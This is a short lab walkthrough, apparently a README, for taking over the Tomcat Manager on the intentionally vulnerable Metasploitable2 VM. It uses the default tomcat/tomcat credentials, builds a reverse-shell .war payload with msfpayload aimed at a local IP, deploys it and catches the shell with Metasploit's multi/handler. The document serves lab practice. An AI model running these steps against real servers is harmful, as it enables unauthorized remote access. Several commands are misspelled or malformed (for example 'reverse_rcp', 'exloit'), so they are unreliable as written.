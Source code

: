 Requirements:
	volunerable vm(can be found here:https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)
	tomcat (included in the vm provided above)
	metasploit

Goal:
	Get a reverse shell

Steps:
	1. By scanning, we can get the Tomcat Manager web app with default credentials at http://localhost:8180/manager/html
		- Username : tomcat
		- Password : tomcat
	2. Utilizing file upload functionality by tomcat, create a .war file with a shell includ in it
		use linux/x86/shell/reverse_rcp payload
		type msfpayload linux/x86/shell/reverse_rcp payload lhost=192.168.59.145 W > tomcatshell.war in the console
		jar -xvf tomcatshell.war (remember the name of jsp file)
	3. upload the tomcatshell.war file to tomcat manager and deploy
	4. add the jsp file name and the extention in the url box
	5. setup a listener:
		go to msfconsole
		use exloit/multi/handler
		set payload linux/x86/shell/reverse_rcp
		set lhost to localhost
		exploit
	6. once we go into the url in step 4, we can get a reverse shell

Credit:
	Lateset Hacking News: https://www.youtube.com/watch?v=ZW0UYnNo78E

